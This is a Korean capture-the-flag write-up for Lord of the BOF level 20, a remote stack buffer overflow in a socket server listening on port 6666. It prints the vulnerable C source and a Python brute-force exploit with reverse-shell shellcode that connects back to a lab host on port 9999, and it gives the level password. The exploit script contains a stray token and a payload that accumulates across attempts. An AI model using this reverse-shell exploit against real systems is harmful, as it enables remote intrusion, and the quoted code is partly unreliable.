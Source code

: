 ```yaml
---
layout: single
title: "LOB 20번 (xavius -> death_night)"
#description: ""
date: 2016-02-05 12:00:00 -0400
# modified: 
tags: 
- wargame
- writeup
- pwnable
- lob
comments: true
share: true
---
```


source code:

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - dark knight
        - remote BOF
*/

#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <string.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <sys/socket.h>
#include <sys/wait.h>
#include <dumpcode.h>

main()
{
        char buffer[40];

        int server_fd, client_fd;
        struct sockaddr_in server_addr;
        struct sockaddr_in client_addr;
        int sin_size;

        if((server_fd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
                perror("socket");
                exit(1);
        }

        server_addr.sin_family = AF_INET;
        server_addr.sin_port = htons(6666);
        server_addr.sin_addr.s_addr = INADDR_ANY;
        bzero(&(server_addr.sin_zero), 8);

        if(bind(server_fd, (struct sockaddr *)&server_addr, sizeof(struct sockaddr)) == -1){
                perror("bind");
                exit(1);
        }

        if(listen(server_fd, 10) == -1){
                perror("listen");
                exit(1);
        }

        while(1) {
                sin_size = sizeof(struct sockaddr_in);
                if((client_fd = accept(server_fd, (struct sockaddr *)&client_addr, &sin_size)) == -1){
                        perror("accept");
                        continue;
                }

                if (!fork()){
                        send(client_fd, "Death Knight : Not even death can save you from me!\n", 52, 0);
                        send(client_fd, "You : ", 6, 0);
                        recv(client_fd, buffer, 256, 0);
                        close(client_fd);
                        break;
                }

                close(client_fd);
                while(waitpid(-1,NULL,WNOHANG) > 0);
        }
        close(server_fd);
}
```

평범한 소켓 통신 서버 역할을 하는 프로그램이며, 원격접속한 사용자로부터 입력값을 받고 있다. 그리고 이를 통해 Buffer Overflow(이하 BOF)가 발생하게 된다. 그리고 이전의 문제들과 다르게 이 버퍼에는 아무런 보호조치가 되어있지 않다. 결국 이 문제는 원격지에서 이 LOB 서버로 접속한 후, 쉘코드와 함께 bof를 발생시키면 된다. 우선 따로 만든 공격지에서 LOB 서버 6666번 포트로 nc 명령어를 사용하였다.

![nc]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/0.png)

위와 같이 입력값을 받고 있다.
공격지인 다른 리눅스 로컬로 리버스 쉘코드를 사용한 브루트 포스 코드를 작성해 두었다. 원격에서 공격하는 만큼 ret주소를 알 수 없기 때문에 브루트 포스를 사용했다.


[Reverse shellcode 출처](https://orang.tistory.com/entry/%ED%95%B4%EC%BB%A4%EC%8A%A4%EC%BF%A8-LOB-xavius-deathknight-by-ORANG)

```c
import sys, struct, socket

host = "192.168.235.135"
port = 6666

hexhost = "\xc0\xa8\xeb\x8a" # 192.168.235.138
recvhexport = "\x27\x0f" # port 9999

shellcode = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68" + hexhost + "\x68\x02\x00" + recvhexport + "\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"10 
padding1 = "A" * 44
padding2 = "\x90" * 50
payload = ""

for i in range(0xff, 0xf0, -1):
	for j in range(0xff, 0x00, -1):
		for k in range(0xff, 0x00, -1):
		 	r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		 	r.connect((host, port))
		 	retaddr = chr(k) + chr(j) + chr(i) + "\xbf"
		 	print("RET: " + str(hex(struct.unpack("I", retaddr)[0])))
		 	payload += padding1
		 	payload += retaddr
		 	payload += padding2
		 	payload += shellcode
		 	print(r.recv(52))
		 	print(r.recv(6))
		 	r.send(payload)
		 	r.close()
```

LOB 서버에 6666번 포트로 연결하고, receive를 9999번 포트로 받으려고 한다.

![nc2]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/1.png)

nc로 공격지에서 listen 모드로 9999번 포트를 열어두고, 위의 브루트포스 코드를 실행시킨다.

![exploit]({{site.url}}{{site.baseurl}}/assets/images/2016-02-05-LOB-20/2.png)


my-pass: got the life